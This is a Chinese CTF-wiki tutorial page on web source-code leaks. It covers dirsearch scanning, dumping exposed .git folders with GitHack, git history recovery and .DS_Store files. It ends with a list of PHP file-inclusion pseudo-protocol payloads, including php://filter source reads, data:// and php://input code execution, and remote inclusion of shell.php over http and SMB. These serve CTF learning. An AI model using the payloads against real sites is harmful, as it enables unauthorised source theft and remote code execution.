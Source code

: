 # 源码泄露
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/).



很少很少会碰到flag放在泄露出来的源码里面


一般都是代码审计，所以会和其他很多东西交织在一起，属于一个比较中间的模块。

所以这里应该是不会有什么例子。

## dirsearch

其实就是一个软件的名称，用来扫后台路径的，讲不好可以扫出源码。


御剑我没用过hhh


（但是buu有访问限制会经常429.......所以记得加参数）


放上下载链接


[https://github.com/maurosoria/dirsearch](https://github.com/maurosoria/dirsearch)


git clone下载就能用了记得chmod +x


然后用法一般是

./dirsearch -u URL -x 404,429,500...(看需求) -t 5(线程数) -d 0.1(访问延迟)

## .git源码泄露

开发人员会使用 git 进行版本控制，对站点自动部署。但如果配置不当，可能会将 .git 文件夹直接部署到线上环境，这就引起了 git 泄露漏洞，我们可以利用这个漏洞直接获得网页源码。


通过网页访问 .git 目录，如果能访问就说明存在（权限不够也行）


要获取泄露的源码，可以使用 GitHack 工具


python（2） GitHack.py url


下载完之后的工作基本上是代码审计。


[https://github.com/BugScanTeam/GitHack](https://github.com/BugScanTeam/GitHack)


需要注意的，貌似我见过的都是py2写的，所以需要py2调用

## git文件修复

`git log --all`


一个是显示

`git reset --hard e5b2a2443c2b6d395d06960123142bc91123148c`


一个是恢复

## ds_store

在Mac OS上会存在。


DS_Store 是用来存储这个文件夹的显示属性的：比如文件图标的摆放位置。删除以后的副作用就是这些信息的失去。（当然，这点副作用其实不是太大）


主要是如果拿到了这个文件由于各种编码的原因会很难受


于是给出一个解析读取这类文件的脚本：

## php伪协议

其实这个东西应该放在文件包含和文件上传里面的。纠结了一下，但还是，决定两个地方都放着(不过不会放很多，大头还是放在那边)：


include、require、include_once、require_once、highlight_file 、show_source 、readfile 、file_get_contents 、fopen 、file


这些都是常见的文件包含函数伪协议依托于这些函数来执行。。


以常见的include为例好了


最长使用的为php://filter/read=convert.base64-encode/resource=[文件名]</code>读取文件源码（针对php文件需要base64编码）


会碰到include($_GET['NAME'])


然后你传个?NAME=php://filter/read=convert.base64-encode/resource=index.php


进去，然后就可以拿到index.php的base64编码的源码。


原理就是文件包含（之后介绍）


### php支持的伪协议有：


```plain
ftp://shell.php
file:///tmp/shell.php
http://xxxx/shell.php
\\smbserver\shell.php        //unc路径
phar://xxxx/x.zip/shell.php   //需将shell.php打包为x.zip上传
zip://xxxx/x.zip#shell.php    //需将shell.php打包为x.zip上传
php://filter/read=convert.base64-encode/resource=shell.php
compress.bzip2://shell.php
compress.zlib://shell.jpg
php://input    [POST DATA] <?php phpinfo()?>
data://text/plain,<?php phpinfo()?>                 //也可以data:text/plain,<?php phpinfo()?>
data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
php://filter/read=convert.base64-encode/resource=phar://phar.phar
php://filter/convert.base64-decode|convert.base64-decode/resource=shell.php
php://filter/%72ead=convert.base64-encode/resource=shell.%70hp
Plain Text
```



读文件常用的也就php：（访问各个输入/输出流（I/O streams））


和file:（还有local_file,这个之后再说，好像是个cve）


所谓的伪协议，事实上是其支持的协议与封装协议

## google

有些代码（比如说直接的服务器端框架性的）试能够直接用github和google直接搜索到的


因此这也是一种形式上的源码泄露。








